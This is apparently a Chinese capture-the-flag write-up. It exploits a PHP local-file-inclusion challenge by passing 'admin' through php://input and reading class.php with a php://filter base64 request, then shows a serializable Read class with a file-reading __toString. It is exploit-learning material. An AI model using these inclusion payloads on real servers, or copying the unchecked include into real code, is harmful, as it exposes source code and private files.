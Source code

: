 F12看到如下代码

```
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];
 
if(isset($user)&&(file_get_contents($user,'r')==="admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
```



尝试读取class.php

```
由于我的hackbar提交不了  才在bp 抓的包，并在post了admin   
GET /index.php?user=php://input&file=php://filter/read=convert.base64-encode/resource=class.php HTTP/1.1
Host: 123.206.31.85:10021
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,en-US;q=0.8,en;q=0.7,zh;q=0.5,zh-TW;q=0.3,zh-HK;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 5

admin
```

![1556808852733](img/1556808852733.png)

```
base64解密后 是一个序列化漏洞
<?php
error_reporting(E_ALL & ~E_NOTICE);
 
class Read{//f1a9.php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "__toString was called!";
    }
}
?>

```